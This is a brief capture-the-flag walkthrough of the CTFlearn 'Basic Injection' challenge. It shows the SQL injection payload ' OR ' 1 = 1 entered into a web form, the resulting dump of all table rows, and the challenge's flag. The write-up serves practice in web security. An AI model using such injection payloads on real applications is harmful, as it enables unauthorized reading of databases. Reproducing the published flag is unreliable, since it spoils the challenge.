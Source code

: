 <h1> Basic Injection </h1>

Problem Statement: <br>
See if you can leak the whole database using what you know about SQL Injections. <br>

Step-1: <br>
After visiting the given URL <a>https://web.ctflearn.com/web4/</a>, you will be asked to input something and then submit it.

Step-2: <br>
Inspect the input text box. <br>
You will find the line given below. <br>
<code> Try some names like Hiroki, Noah, Luke </code>

Step-3: <br>
You will find no flag even after submitting the above names. Now try basic SQL payloads in the existing database. <br>
I submitted the input <code> Lucifer' OR ' 1 = 1 </code> and got the following output: <br>
<code>
Name: Luke \n
Data: I made this problem. \n
Name: Alec \n
Data: Steam boys. \n
Name: Jalen \n
Data: Pump that iron fool. \n
Name: Eric \n
Data: I make cars. \n
Name: Sam \n
Data: Thinks he knows SQL. \n
Name: fl4g__giv3r \n
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs} \n
Name: snoutpop \n
Data: jowls \n
Name: Chunbucket \n
Data: @datboiiii \n
</code>

Step-4: <br>
The desired flag <code>CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}</code> can be found in line number 12 of the above output.
